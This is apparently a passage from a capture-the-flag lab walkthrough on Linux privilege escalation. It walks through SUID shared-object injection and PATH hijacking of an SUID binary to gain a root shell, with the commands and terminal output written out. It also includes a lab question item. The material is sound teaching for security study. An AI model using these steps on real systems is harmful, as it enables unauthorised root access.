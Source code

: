 ```
user@debian:~$ mkdir /home/user/.config
user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# whoami
root
bash-4.1#
```

1. Read and follow along with the above.

`No answer needed`

## SUID / SGID Executables - Environment Variables

The **/usr/local/bin/suid-env** executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

`/usr/local/bin/suid-env`

Run strings on the file to look for strings of printable characters:

`strings /usr/local/bin/suid-env`

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at **/home/user/tools/suid/service.c** into an executable called **service**. This code simply spawns a Bash shell:

`gcc -o service /home/user/tools/suid/service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the **suid-env** executable to gain a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`

**Remember to exit out of the root shell before continuing!**

```
user@debian:~$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1479) already running
. ok 
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
user@debian:~$ gcc -o service /home/user/tools/suid/service.c
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# whoami
root
root@debian:~# 
```
